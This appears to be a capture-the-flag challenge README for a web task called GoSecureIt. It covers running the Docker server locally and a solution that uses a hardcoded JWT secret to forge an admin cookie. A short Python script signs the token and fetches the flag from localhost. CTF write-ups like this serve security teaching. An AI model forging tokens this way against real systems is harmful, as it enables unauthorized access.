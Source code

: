# GoSecureIt
<b>Author</b>: [Schrödy](https://github.com/AndreaGordanelli)<br>
<b>Category</b>: Web<br>
<b>Solves</b>: 95<br>

## Descritpion
I've found this website under construction, at the moment you can only register, but I think there's something strange in the cookie

## How to run the server
To run the server you'll need [`docker`](https://docs.docker.com/get-docker/).<br>
Go into the `src` folder and from the command line run `docker compose up --build -d`.<br>
Now you can connect to the server by opening [`http://localhost:2301/`](http://localhost:2301/) in your browser.<br>To stop the server, from the command line run `docker compose down`.

## Solution
Inside "secret/secret.go" there is a secret key that can be used to sign a jwt written by us, by changing the "role" parameter from "user" to "admin" we can send a GET request to /flag and obtain the flag

```python 3

import jwt
import datetime

import requests

secret_key = "schrody_is_always_watching"
url = "http://localhost:2301/flag"

payload = {
    "role": "admin",
    "exp": datetime.datetime.now(datetime.UTC) + datetime.timedelta(hours=1),
    "iat": datetime.datetime.now(datetime.UTC)
}

token = jwt.encode(payload, secret_key, algorithm="HS256")

print(requests.get(url, cookies={"jwt": token}).text)

```
